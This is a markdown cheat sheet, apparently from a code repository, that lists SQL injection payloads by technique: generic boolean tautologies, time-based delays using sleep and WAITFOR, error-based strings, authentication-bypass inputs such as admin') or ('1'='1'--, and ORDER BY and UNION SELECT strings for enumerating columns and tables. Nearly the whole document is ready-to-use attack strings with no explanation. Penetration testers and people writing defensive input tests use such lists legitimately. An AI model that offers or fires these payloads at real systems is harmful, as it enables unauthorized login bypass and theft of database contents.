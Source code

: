 # SQL 1nj3ction
## Generic SQL Injection Payloads
`' or '`

`-- or # `

`' OR '1`

`' OR 1 -- -`

`OR "" = "`

`" OR 1 = 1 -- -"`

`' OR '' = '`

`'='`

`'LIKE'`

`'=0--+`

`OR 1=1`

`' OR 'x'='x`

`' AND id IS NULL; --`

`'''''''''''''UNION SELECT '2`

## Time-Based
`,(select * from (select(sleep(10)))a)`

`%2c(select%20*%20from%20(select(sleep(10)))a)`

`';WAITFOR DELAY '0:0:30'--`

## Generic Error Based Payloads
`OR 1=1`

`OR 1=1#`

`OR x=y#`

`OR 1=1-- `

`OR x=x-- `

`OR 3409=3409 AND ('pytW' LIKE 'pytW`

`HAVING 1=1`

`HAVING 1=1#`

`HAVING 1=0-- `

`AND 1=1-- `

`AND 1=1 AND '%'='`

`WHERE 1=1 AND 1=0--`

`%' AND 8310=8310 AND '%'='`

## Authentication Based Payloads
`' or ''-'`

`' or '' '`

`' or ''&'`

`' or ''^'`

`' or ''*'`

`or true--`

`" or true--`

`' or true--`

`") or true--`

`') or true--`

`admin') or ('1'='1'--`

`admin') or ('1'='1'#`

`admin') or ('1'='1'/`

## Order by and UNION Based Payloads

`1' ORDER BY 1--+`

`1' ORDER BY 2--+`

`1' ORDER BY 3--+`

`1' ORDER BY 1,2--+`

`1' ORDER BY 1,2,3--+`

`1' GROUP BY 1,2,--+`

`1' GROUP BY 1,2,3--+`

`' GROUP BY columnnames having 1=1 --`

`-1' UNION SELECT 1,2,3--+`

`' UNION SELECT sum(columnname ) from tablename --`

`-1 UNION SELECT 1 INTO @,@`

`-1 UNION SELECT 1 INTO @,@,@`

`1 AND (SELECT * FROM Users) = 1 `

`' AND MID(VERSION(),1,1) = '5';`

`' and 1 in (select min(name) from sysobjects where xtype = 'U' and 
name > '.') --`

